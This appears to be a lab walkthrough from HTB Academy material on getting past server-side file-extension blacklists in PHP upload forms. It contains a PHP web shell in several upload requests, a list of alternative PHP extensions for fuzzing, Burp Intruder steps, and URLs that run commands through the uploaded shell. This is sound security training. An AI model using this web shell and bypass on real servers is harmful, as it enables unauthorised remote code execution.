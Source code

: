 # Blacklist Filters

> **🚫 Extension Blocking:** Bypassing server-side blacklist validation that blocks specific file extensions

## Overview

In the previous section, we saw an example of a web application that only applied type validation controls on the front-end (i.e., client-side), which made it trivial to bypass these controls. This is why it is always recommended to implement all security-related controls on the back-end server, where attackers cannot directly manipulate it.

Still, if the type validation controls on the back-end server were not securely coded, an attacker can utilize multiple techniques to bypass them and reach PHP file uploads.

The exercise we find in this section is similar to the one we saw in the previous section, but it has a blacklist of disallowed extensions to prevent uploading web scripts.

---

## Blacklisting Extensions

> **⚠️ Incomplete Protection:** Blacklists cannot cover all possible dangerous extensions

### Understanding Blacklist Validation

There are generally two common forms of validating a file extension on the back-end:

1. **Testing against a blacklist of types** (deny specific extensions)
2. **Testing against a whitelist of types** (allow only specific extensions)

Furthermore, the validation may also check the file type or the file content for type matching. The weakest form of validation amongst these is testing the file extension against a blacklist of extension to determine whether the upload request should be blocked.

### Example Blacklist Implementation

**PHP Blacklist Code:**
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

**Vulnerability Analysis:**
- **Incomplete List** - Many dangerous extensions not included
- **Case Sensitivity** - Only checks lowercase extensions
- **Limited Scope** - Doesn't cover all executable extensions

### Testing Blacklist Bypass

**Initial Bypass Attempt:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/png

<?php system(\$_REQUEST['cmd']); ?>
----boundary--
```

**Expected Response:**
```
Extension not allowed
```

This indicates that the web application has some form of file type validation on the back-end, in addition to the front-end validations.

---

## HTB Academy Lab Solutions

### Lab 1: Basic Blacklist Bypass

**Target:** \`HTB{...}\`

**Step-by-Step Solution:**

**Step 1: Reconnaissance**
```bash
# Test basic PHP upload
filename="shell.php" → "Extension not allowed"

# Confirms blacklist filtering is in place
```

**Step 2: Extension Fuzzing**
```bash
# Use Burp Intruder with PHP extensions wordlist
# Look for responses different from "Extension not allowed"
# Identify allowed extensions: .phtml, .php3, .php4, .php5, .inc
```

**Step 3: Test Allowed Extension**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.phtml"
Content-Type: image/png

<?php system(\$_REQUEST['cmd']); ?>
----boundary--
```

**Step 4: Execute Commands**
```bash
# Access uploaded file
http://SERVER_IP:PORT/profile_images/shell.phtml?cmd=id

# Read flag
http://SERVER_IP:PORT/profile_images/shell.phtml?cmd=cat /flag.txt
```

## Fuzzing Extensions

> **🔍 Discovery Process:** Systematically test extensions to find allowed ones

### Extension Wordlists

**Popular Extension Lists:**
- **PayloadsAllTheThings** - PHP and .NET web application extensions
- **SecLists** - Common web extensions list
- **Custom Lists** - Application-specific extensions

**PHP Extensions to Test:**
```bash
# Common PHP extensions
php, phtml, php3, php4, php5, php7, phps, phar, inc

# Alternative PHP extensions
php2, php6, php8, phpt, pht, phtm, phps, phps3, phps4, phps5
```

### Burp Suite Fuzzing Setup

**Step 1: Intercept Upload Request**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="HTB.§php§"
Content-Type: image/png

<?php system(\$_REQUEST['cmd']); ?>
----boundary--
```

**Step 2: Configure Intruder**
1. **Send to Intruder** - Right-click request → "Send to Intruder"
2. **Clear Positions** - Remove auto-generated payload positions
3. **Add Position** - Select \`.php\` extension and click "Add §"
4. **Load Payloads** - Upload PHP extensions wordlist
5. **Disable URL Encoding** - Uncheck URL encoding option

**Step 3: Analyze Results**
```bash
# Sort results by Length/Response
# Look for different response patterns:
# - "Extension not allowed" = BLOCKED
# - "File successfully uploaded" = ALLOWED
# - Different Content-Length = Potential bypass
```

### Testing .phtml Extension

**Step 1: Modify Request**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.phtml"
Content-Type: image/png

<?php system(\$_REQUEST['cmd']); ?>
----boundary--
```

**Step 2: Test Code Execution**
```bash
# Navigate to uploaded file
http://SERVER_IP:PORT/profile_images/shell.phtml?cmd=id

# Expected output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This comprehensive guide demonstrates the weaknesses of blacklist-based filtering and provides practical techniques for bypassing such controls during penetration testing.
